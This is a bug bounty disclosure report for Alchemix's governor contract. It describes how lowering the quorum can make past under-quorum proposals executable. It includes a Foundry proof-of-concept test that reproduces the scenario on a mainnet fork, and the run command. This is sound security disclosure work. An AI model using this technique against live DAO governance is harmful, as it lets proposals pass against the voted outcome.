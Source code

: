 
# Past defeated proposals may become executable if the quorum requirement is lowered

Submitted on Tue Apr 30 2024 12:46:43 GMT-0400 (Atlantic Standard Time) by @mt030d for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30556

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, which is based on an outdated version of OpenZeppelin's `GovernorVotesQuorumFraction` contract that has a known vulnerability.

This vulnerability allows past proposals to become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

## Vulnerability Details
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, a modified version of OpenZeppelin's `GovernorVotesQuorumFraction` contract at version v4.5.0. However, this version has a [known vulnerability](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75), patched in v4.7.2.

As a result, the `AlchemixGovernor` contract is affected by the same vulnerability: when a proposal is passed to lower the quorum requirement, past proposals may become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

Please see the PoC for a concrete scenario of this vulnerability.

## Impact Details
An under-quorum proposal should be unable to execute after the vote period. 

However, when a proposal is passed to lower the quorum requirement, past proposals become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

A malicious user could propose a malicious proposal and vote for it. Since it's below the quorum, it may go unnoticed by the DAO. Later, they can propose a proposal to lower the quorum for other valid reasons. If the proposal is executed, their hidden malicious proposal may become executable, potentially causing monetary and reputational harm to the project.

## References
- [AlchemixGovernor contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L16)
- [L2GovernorVotesQuorumFraction contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol)
- [The issue for OpenZeppelin's GovernorVotesQuorumFraction](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75) 

        
## Proof of concept
## Proof of Concept

```solidity
// ./test/PoC.t.sol
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/test/BaseTest.sol";

contract PoC is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);

        // Create veALCX for admin
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);

        // Create veALCX for 0xbeef
        createVeAlcx(beef, TOKEN_1 * 10_000, MAXTIME, false);

        // Can't propose and vote in the same block as a veALCX is created
        hevm.warp(block.timestamp + 1);
    }

    function test_PastDefeatedProposalCanPassAfterQuorumDecrease() public {
        assertFalse(voter.isWhitelisted(usdc));

        // craft a proposal to make voter whitelist usdc
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.stopPrank();

        uint256 votingPower = veALCX.getVotes(beef);
        uint256 quorum = governor.quorum(block.timestamp);
        assertGt(quorum, votingPower, "quorum should be greater than voting power");

        // execute - fail due to lack of quorum
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        // assume the DAO decides to decrease the QuorumNumerator
        updateQuorumNumerator(50);

        // As a result, a a past defeated proposal due to lack of quorum now meets the new quorum requirement
        votingPower = veALCX.getVotes(beef);
        quorum = governor.quorum(block.timestamp);
        assertLt(quorum, votingPower, "quorum should be less than voting power");


        // now the past defeated proposal can be executed
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
        assertTrue(voter.isWhitelisted(usdc));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function updateQuorumNumerator(uint256 newQuorumNumerator) internal {

        address[] memory targets = new address[](1);
        targets[0] = address(governor);
        uint256[] memory values = new uint256[](1);
        values[0] = 0;
        bytes[] memory calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(governor.updateQuorumNumerator.selector, newQuorumNumerator);
        string memory description = "Update QuorumNumerator";

        hevm.startPrank(admin);
        uint256 pid = governor.propose(targets, values, calldatas, description, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay

        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay

        governor.execute(targets, values, calldatas, keccak256(bytes(description)), MAINNET);
        hevm.stopPrank();
    }
}
```
This PoC inherits the [BaseTest](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/test/BaseTest.sol )  contract for its `setupContracts()` and `createVeAlcx()` functionalities.

The `test_PastDefeatedProposalCanPassAfterQuorumDecrease()` test case demonstrates the following scenario:
1. An admin proposes a proposal to whitelist USDC in the Voter contract.
2. The user (beef) votes in favor of this proposal.
3.	After the voting period, the proposal cannot be executed since the quorum is not reached.
4.	However, if the DAO later decides to decrease the quorum requirement, the previously defeated proposal can now pass and be executed.

Run the PoC using the following command:
```
forge test --mt test_PastDefeatedProposalCanPassAfterQuorumDecrease --fork-url $URL --fork-block-number=17133822
``` 
This should pass the test case.